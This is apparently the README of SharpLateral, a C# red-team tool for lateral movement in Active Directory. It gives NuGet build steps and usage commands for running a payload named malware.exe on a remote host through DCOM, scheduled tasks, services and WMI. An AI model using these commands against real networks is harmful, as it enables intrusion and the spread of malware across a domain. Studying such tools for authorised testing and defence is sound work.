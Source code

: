 # SharpLateral

SharpLateral is a tool that includes 4 different methods for performing lateral movement in the AD environment and is written in C# language.

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <b><br>DCOM:<br></b>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20<br>
<b><br>Scheduled Task:<br></b>
``SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
<b><br>Service:<br></b>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it<br>
<b><br>WMI:<br></b>
 ``SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




